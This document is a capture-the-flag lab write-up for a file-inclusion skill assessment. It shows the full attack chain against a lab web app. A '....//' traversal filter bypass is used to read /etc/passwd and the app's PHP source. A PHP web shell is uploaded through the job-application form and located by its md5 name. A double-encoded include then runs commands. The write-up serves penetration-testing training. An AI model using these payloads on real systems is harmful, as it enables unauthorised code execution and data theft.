



# File Inclusion - Skill Assessment

## Scenario

You have been contracted by `Sumace` Consulting Gmbh to carry out a web application penetration test against their main website. During the kickoff meeting, the CISO mentioned that last year's penetration test resulted in zero findings, however they have added a job application form since then, and so it may be a point of interest.

## Tools Used for This Assessment

- Web Browser
- Burp Suite
- cURL

## Question

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

## Solution

### Step 1 - Become a Regular User

Explore the web function just like any regular user, make sure you document it using Burp's HTTP History. Gather as much information as possible, here's what we found:

- endpoints : 
	- `/contact.php`
	- `/api/image.php`
	- `/apply.php`
	- `/thanks.php`
	- `/api/application.php`


### Step 2 - Find Potential Vulnerable Parameter

We discover that `/api/image.php` has a parameter `p` that retrieve an image, this has a potential to be vulnerable to file inclusion



### Step 3 - Start Attacking

After testing, we found that the parameter has a basic security filter that filters out `../` so we use `....//` to bypass it, use `....//....//....//....//etc/passwd` payload: 



### Step 4 - Read and Analyze Source Code

To escalate this vulnerability to be more severe so we can read the flag, I tried few RCE techniques such as PHP Wrappers, Expect Wrapper, Log Poisoning but nothing works, the best we can do now is to read the source code to see how this application works under the hood

Use the following command leveraging the file inclusion to read the source code :

#### `/api/image.php`

- Command to retrieve source code:

```bash
curl "http://154.57.164.76:30816/api/image.php?p=....//api/image.php"
```

- Source Code:

```php
<?php
if (isset($_GET["p"])) {
    $path = "../images/" . str_replace("../", "", $_GET["p"]);
    $contents = file_get_contents($path);
    header("Content-Type: image/jpeg");
    echo $contents;
}
?>
```

- Analysis
    - This code is vulnerable to file inclusion but `file_get_content()` only able to Read content, therefore we can't use RCE technique in this parameter

#### `apply.php`

- Command to retrieve source code:

```bash
curl "http://154.57.164.76:30816/api/image.php?p=....//apply.php"
```

- Source Code:

```html
<form action="/api/application.php" method="POST" enctype="multipart/form-data">
    <p>Fill out this form, and we will contact you if we think you are a good fit.</p>
    <label>First Name*</label>
    <input type="text" name="firstName" required />
        <label>Last Name*</label>
        <input type="text" name="lastName" required />
        <label>Email*</label>
        <input type="email" name="email" required />
        <label>Resume (.docx, .pdf)*</label>
        <input type="file" name="file" required />
        <label>Any additional notes</label>
        <textarea name="notes"></textarea>
    <input type="submit" value="Upload" />
</form>
```

- Analysis:
    - The form is sent to `/api/application.php` to be processed


#### `/api/application.php`

- Read the source code:

```bash
curl "http://154.57.164.76:30816/api/image.php?p=....//api/application.php"
```

- Source Code:

```php
<?php
$firstName = $_POST["firstName"];
$lastName = $_POST["lastName"];
$email = $_POST["email"];
$notes = (isset($_POST["notes"])) ? $_POST["notes"] : null;

$tmp_name = $_FILES["file"]["tmp_name"];
$file_name = $_FILES["file"]["name"];
$ext = end((explode(".", $file_name)));
$target_file = "../uploads/" . md5_file($tmp_name) . "." . $ext;
move_uploaded_file($tmp_name, $target_file);

header("Location: /thanks.php?n=" . urlencode($firstName));
?> 
```

- Analysis:
    - The uploaded file is hashed using md5 hash to use it as a new file name and it then stored inside `/uploads/` directory

#### `contact.php`

- Command to retrieve the source code:

```bash
curl "http://154.57.164.76:30816/api/image.php?p=....//contact.php"
```

- The source code:

```php
<?php
$region = "AT";
$danger = false;

if (isset($_GET["region"])) {
    if (str_contains($_GET["region"], ".") || str_contains($_GET["region"], "/")) {
        echo "'region' parameter contains invalid character(s)";
        $danger = true;
    } else {
        $region = urldecode($_GET["region"]);
    }
}

if (!$danger) {
    include "./regions/" . $region . ".php";
}
?>
```

- Analysis : 
	- This endpoint has a parameter called `region`
	- `region` parameter has a filter that detects special characters such as `/` and `.`
	- once the argument passed the filter scan, it then decoded using `urldecode` and included with prepend `/regions` directory and append with `.php` extension
	- This is vulnerable to file inclusion

### Step 5 - Plan and Execute the Attack

From what we gather, we can plan the attack, the attack is to upload a PHP web shell, md5 hash the payload to get the file name, and then use the vulnerable `contact.php` to execute the shell by double encode the LFI Payload.

1. Craft the PHP web shell payload

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

2. Navigate to `/apply.php` and upload the payload

3. Hash the `shell.php` payload to get the file name

```bash
md5sum shell.php | cut -d ' ' -f1
```

- The File Name:

```
fc023fcacb27a7ad72d605c4e300b389
```

4. Double encode the file path of our web shell path Using [CyberChef](https://gchq.github.io/CyberChef/)


```
%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389
```

5. Navigate to `/contact` and execute the RCE and we should get the flag 

```http
http://154.57.164.76:30816/contact.php?region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389&cmd=ls+/
```

